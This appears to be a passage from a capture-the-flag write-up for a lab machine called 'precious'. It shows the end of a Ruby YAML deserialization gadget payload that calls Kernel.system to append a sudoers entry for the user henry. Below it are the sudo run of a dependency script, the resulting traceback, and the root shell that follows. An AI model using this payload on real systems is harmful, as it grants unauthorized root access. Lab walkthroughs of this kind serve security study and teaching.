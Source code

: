 ```bash
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: "echo 'henry ALL=(ALL:ALL) ALL' >> /etc/sudoers"
          method_id: :resolve
```

```bash
henry@precious:~$ sudo ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
        25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
        21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
        20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
        19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
        18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
        14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
        13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
        12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
        11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
        10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
         9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
         8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
         7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
         6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
         5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
         3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
         2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:~$ sudo su
[sudo] password for henry: 
root@precious:/home/henry#
```

COOL! Now henry is a sudoer
